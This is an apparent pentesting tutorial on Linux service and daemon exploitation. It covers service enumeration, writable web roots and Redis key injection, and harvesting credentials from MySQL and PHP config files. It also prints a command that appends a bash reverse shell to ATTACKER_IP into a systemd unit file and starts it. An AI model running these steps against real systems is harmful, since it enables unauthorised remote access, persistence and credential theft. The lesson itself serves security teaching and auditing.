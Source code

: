 # Day 20 – Linux Services & Daemon Exploitation
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

## 🔹 Introduction
Services (daemons) are background processes that provide functionality such as web servers, databases, or remote access. Misconfigured services are one of the most common privilege escalation and lateral movement vectors on Linux.

---

## 🔹 Enumerating Services
Attackers first identify which services are running and how they are configured.

```bash
# List active services
systemctl list-units --type=service

# Check running processes
ps aux | grep root

# List listening ports
netstat -tulnp
ss -tulnp
```

---

## 🔹 Why Services Matter for Attackers
- Services running as **root** are prime targets.
- Misconfigurations can lead to **remote code execution (RCE)** or **privilege escalation**.
- Configuration files may store **cleartext credentials**.

---

## 🔹 Common Examples of Service Exploits
- **Apache/NGINX:** If `/var/www/html` is writable, attackers can drop a **webshell**.
- **MySQL:** Default or weak root passwords; credentials stored in `/etc/mysql/my.cnf`.
- **Redis:** Can be exploited to write SSH keys into `/root/.ssh/authorized_keys` → root access.
- **Systemd Services:** Writable unit files can be hijacked to execute attacker code.

```bash
# Example: hijacking a service file
echo -e "[Service]
ExecStart=/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> /etc/systemd/system/vulnerable.service
systemctl daemon-reload
systemctl start vulnerable.service
```

---

## 🔹 Credential Harvesting from Services
Configuration files often contain valuable credentials:

```bash
cat /etc/mysql/my.cnf
cat /var/www/html/config.php
```

Attackers can reuse these credentials for **lateral movement**.

---

## 🔹 Pentester Notes
When assessing Linux services:
- Look for **services running as root** unnecessarily.
- Check file permissions of service definitions in `/etc/systemd/system/`.
- Audit web/database configs for **hardcoded or weak credentials**.
- Validate that services are not exposed on `0.0.0.0` unless required.

---

## 📌 Summary
- Services/daemons are critical attack surfaces.  
- Misconfigured services often lead to privilege escalation.  
- Service files, configs, and running permissions should always be audited.  

---

📢 Follow [CyberSecPlayground](https://t.me/cybersecplayground) for daily Linux hacking lessons, persistence tricks, and real-world pentesting insights!
